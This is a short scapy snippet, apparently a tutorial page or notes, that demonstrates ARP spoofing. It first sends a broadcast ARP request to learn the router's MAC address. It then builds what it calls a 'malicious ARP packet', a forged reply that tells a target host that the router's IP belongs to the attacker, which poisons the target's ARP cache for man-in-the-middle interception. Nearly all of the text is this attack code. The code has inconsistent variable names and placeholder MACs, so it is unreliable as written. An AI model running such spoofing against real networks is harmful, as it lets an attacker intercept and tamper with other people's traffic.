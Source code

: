 On Linux

scapy

ls(ARP)

# Part 1
# Create ARP request
broadcast = Ether(dst="ff:ff:ff:ff:ff:ff")
# Get router address = enter router IP
arppacket = ARP(pdst="192.168.1.1")
arppacket.show()

finalPacket = broadcast/arppacket
finalPacket.show()

# Send packet
answer = srp(finalPacket, timeout=2, verbose=True)[0]

# Print answer
mac_address = answer[0][1].hwsrc
print(mac_address)

# Show own MAC
mac_address

# Part 2
# Create malicious ARP packet to target IP
finalpacket.pdst = "192.168.1.5"
answer = srp(finalPacket, timeout=2, verbose=False)[0]
answer
mac = answer[0][1].hwsrc
print(mac)

# MAC address of target and IP and psrc = router IP
packet = ARP(op=2, hwdst="xx:xx:xx:xx:xx:xx", pdst="192.168.1.5", psrc="192.168.1.1")
send(packet, verbose=False)

# On Windows
arp -a
